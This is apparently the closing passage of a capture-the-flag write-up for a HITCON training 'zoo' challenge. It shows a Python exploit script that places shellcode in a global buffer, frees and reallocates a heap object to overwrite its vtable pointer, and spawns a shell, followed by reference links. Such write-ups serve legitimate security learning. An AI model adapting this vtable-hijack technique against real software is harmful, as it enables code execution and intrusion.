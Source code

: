```python  
  
#gdb.attach(p,"b *0x40193E\nc\n")  
nameofzoo = 0x605420  
  
ru(":")  
sl(shellcode + p64(nameofzoo))  
  
add_dog("a"*8,0)  
add_dog("b"*8,1)  
  
remove(0)  
fake_vptr = nameofzoo + len(shellcode)  
add_dog("c"*72 + p64(fake_vptr),2)  
#pause()  
listen(0)  
getshell()  
```  
  
## 参考链接  
https://xz.aliyun.com/t/3902    
https://www.sec4.fun/2020/07/15/hitcon-training-writeup    
https://www.anquanke.com/post/id/186447    
https://introspelliam.github.io/2017/08/07/int-80h%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E6%96%B9%E6%B3%95/  
